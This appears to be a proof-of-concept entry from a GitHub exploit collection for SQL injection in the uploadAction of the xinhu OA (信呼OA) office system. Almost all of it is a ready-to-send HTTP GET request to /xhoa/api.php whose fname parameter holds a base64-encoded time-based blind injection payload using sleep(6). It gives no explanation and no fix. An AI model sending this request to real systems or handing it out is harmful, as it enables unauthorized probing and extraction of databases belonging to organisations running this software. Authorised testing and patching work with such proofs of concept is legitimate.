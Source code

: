 # xinhuOA_uploadAction_sqli

from: https://github.com/wy876/POC/blob/main/%E4%BF%A1%E5%91%BCOA/%E4%BF%A1%E5%91%BCOA%E5%8A%9E%E5%85%AC%E7%B3%BB%E7%BB%9F%E5%90%8E%E5%8F%B0uploadAction%E5%AD%98%E5%9C%A8SQL%E6%B3%A8%E5%85%A5.md
product: 信呼OA

```
GET /xhoa/api.php?a=getmfilv&m=upload|api&d=task&fileid=1&fname=MScgYW5kIHNsZWVwKDYpIw== HTTP/1.1  
Host:  
sec-ch-ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"  
Sec-Fetch-Dest: empty  
Accept: application/json, text/javascript, */*; q=0.01  
Referer: http://127.0.0.1:81/xhoa/  
Cookie:   
Sec-Fetch-Mode: cors  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36  
Accept-Encoding: gzip, deflate, br, zstd  
Sec-Fetch-Site: same-origin  
Accept-Language: zh-CN,zh;q=0.9  
X-Requested-With: XMLHttpRequest  
sec-ch-ua-mobile: ?0  
sec-ch-ua-platform: "Windows"  
```
